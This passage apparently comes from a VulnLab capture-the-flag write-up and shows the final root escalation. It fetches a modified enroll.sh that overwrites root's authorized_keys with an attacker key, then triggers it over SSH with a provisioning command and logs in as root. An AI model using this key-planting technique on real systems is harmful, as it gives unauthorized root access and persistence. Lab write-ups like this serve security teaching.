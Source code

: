 The modifications work
```
└─$ curl -k https://os.control.vl/pen/test/enroll.sh
#!/bin/bash

echo "ssh-<SNIP>LTXH3V/ kali@kali" > /root/.ssh/authorized_keys
```

Connect using `provision`'s private key and specify `prov_osqd` script and arguments pointing to created location
```
└─$ ssh -i provision.id_rsa root@10.10.235.85 'prov_osqd pen test'     
```

Now, connect as `root` using private key and grab the flag

![](16.png)


[https://api.vulnlab.com/api/v1/share?id=17023969-64ec-4b73-b7f2-d9241d0e44b2](https://api.vulnlab.com/api/v1/share?id=17023969-64ec-4b73-b7f2-d9241d0e44b2)